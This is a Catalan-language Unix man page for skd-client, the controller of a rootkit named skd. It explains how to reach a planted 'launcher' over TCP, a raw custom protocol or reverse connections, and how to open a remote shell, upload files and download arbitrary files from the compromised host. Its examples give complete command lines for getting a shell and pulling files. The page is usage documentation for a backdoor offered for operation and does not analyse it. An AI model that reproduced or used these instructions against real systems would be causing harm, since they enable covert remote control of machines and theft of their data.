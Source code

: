 .TH SKD-CLIENT 1

.SH NOM
skd-client - client per gestionar el rootkit skd

.SH SINOPSIS

.B skd-client -a 
.RI { shell | down | up | check | listen } 
.B -c 
.RI { tcp | raw | rev } 
.B -h 
.I hostname 
.B -l 
.I port 
.B -d 
.I port 
.RB [ -f 
.IR file ] 
.RB [ -t 
.IR secs ]

.SH OPCIONS

.TP
.B -a
.RI { shell | down | up | check | listen }
.RS
.PP
Aquesta opció ens permet seleccionar l'opció a executar. Les diferents opcions disponibles són: shell, down, up check i listen.
.PP
.IR shell :
aquesta acció ens permet obtenir una shell lligada a un TTY a la màquina remota on s'està executant el launcher.
.PP
.IR up :
aquesta acció ens permet pujar un fitxer a la màquina remota. El fitxer pujat, serà guardat en el directori HOME de l'usuari.
.PP
.IR down :
aquesta acció ens permet descarregar una fitxer del disc dur de la màquina remota. Per tal de descarregar-lo, cal especificar el path complet on es troba el fitxer.
.PP
.IR check :
aquesta acció ens permet comprovar si hi ha una instància del launcher en execució a l'altre màquina.
.PP
.IR listen :
aquesta acció queda escoltant a un port TCP a l'espera que el launcher li estableixi una connexió, i així 
acabar llançant una shell.
.RE

." -c option
.TP
.B -c
.RI { tcp | raw | rev }
.RS
.PP
Aquesta opció ens permet definir el mode de comunicació que s'utilitzarà a l'hora de realitzar l'acció especificada amb el parametre -a. Tots els modes de comunicació requereixen de la utilització del paràmetre -h. Els diferents valors possibles són:
.PP
.IR tcp :
aquest mode de comunicació és el què s'utilitza quan el launcher està en execució en un entorn no privilegiat. Tracta en establir una connexió tcp directament amb el launcher i comunicar-se per aquí. Aquest mode requereix a més, de la utilització del paràmetre -d.

.PP
.IR raw :
aquest mode de comunicació, estableix una connexió utilitzant un protocol propi. Per tal d'utilitzar aquest mode, tant el launcher com el client han de ser executats com a usuari root. Aquest mode també requereix dels paràmetres -d i -l.

.PP
.IR rev :
aquest mode de comunicació, estableix una connexió a un port ja obert a la màquina on hi ha el launcher, i després espera que aquesta estableixi una connexió cap a ell. Per tal de fer això, requereix dels paràmetres -d i -l.
.RE

.TP
.BR -h :
.IR hostname .
Aquesta opció especifica amb el què es vol contactar. El paràmetre
.I hostname
pot ser una direcció ip o un nom DNS.

.TP
.BR -l :
.IR port .
En aquesta opció, port és el port local de la màquina que el client utilitzarà per el mode de comunicació
en qüestió. 

.TP
.BR -d :
.IR port .
En aquesta opció, port és el port destí utilitzat per el mode de comunicació. Normalment serà el port utilitzat on enviar les dades.

.TP
.BR -f :
.IR file .
En les accions on calgui especificar un fitxer (ja sigui per pujar o per descarregar), s'utilitzarà aquesta opció per a definir-lo.

.TP
.BR -t :
.IR sec .
Opció utilitzada per a definir un timeout en l'establiment de la connexió entre el client i el launcher. El temps per defecte és de 10 segons.

.SH DISPONIBILITAT

Totes les variants de UNIX que compleixin l'estàndard POSIX.

.SH DESCRIPCIÓ

skd-client ens permet utilitzar les diferents funcionalitats del rootkit skd. Amb aquest client ens podem
connectar a la part launcher utilitzant els diferents modes de comunicació, així com executar les diferents accions disponibles. 
.PP
En el moment en què el skd-client és executat, aquest sol·licita un password que serà utilitzat per a autenticar i xifrar la connexió amb el launcher. 

.SH EXEMPLES
.B skd-client -a shell -c tcp -h 127.0.0.1 -d 9999
.PP
Estableix una connexió TCP amb el host 127.0.0.1 al port 9999, i sol·licita l'execució d'una shell. Al fer-ho, la pròpia connexió, passa a ser la connexió establerta amb la shell.

.B skd-client -a shell -c raw -h localhost -d 9999 -l 8888 -t 3
.PP
Estableix una connexió RAW amb el host localhost utilitzant els ports 9999 i 8888. Al fer-ho defineix un timeout de 3 segons. D'aquesta connexió, també s'obté una shell.

.B skd-client -a listen -l 8888
.PP
Obre el port TCP 8888, i espera rebre una connexió en aquest port infinitament. Si la rep, aquesta connexió
esdevé amb una shell.

.B skd-client -a up -c rev -h 127.0.0.1 -d 80 -l 8888 -f data.zip
.PP
Estableix una connexió TCP amb el port 80 del host 127.0.0.1 i envia un paquet especial de tal manera que llavors el launcher estableix una connexió al port local 8888. Al rebre la connexió del launcher, s'inicia 
una transferència del fitxer data.zip que serà guardat en el home utilitzat pel launcher.

.B skd-client -a down -c rev -h 127.0.0.1 -d 80 -l 8888 -f /var/tmp/file.zip
.PP
Segueix exactament els mateixos passos que en el cas anterior, però en aquest cas, sol·licita la descàrrega del fitxer /var/tmp/file.zip. Aquest fitxer és descarregat en el directori on estiguem en el moment d'executar la comanda.

.B skd-client -a check -c rev -h 127.0.0.1 -d 80 -l 8888
.PP
Estableix una connexió TCP igual que en els exemples anteriors. En aquest cas el paquet que envia no està xifrat. En cas de ser contestat, el skd-client mostrarà un missatge indicant que s'ha trobat un launcher en el host objectiu.

.SH AUTOR

Albert Sellarès <whats[@t]wekk.net>

.SH VEURE TAMBÉ
.RS
skd-launcher(1), skd-config(7).
.RE
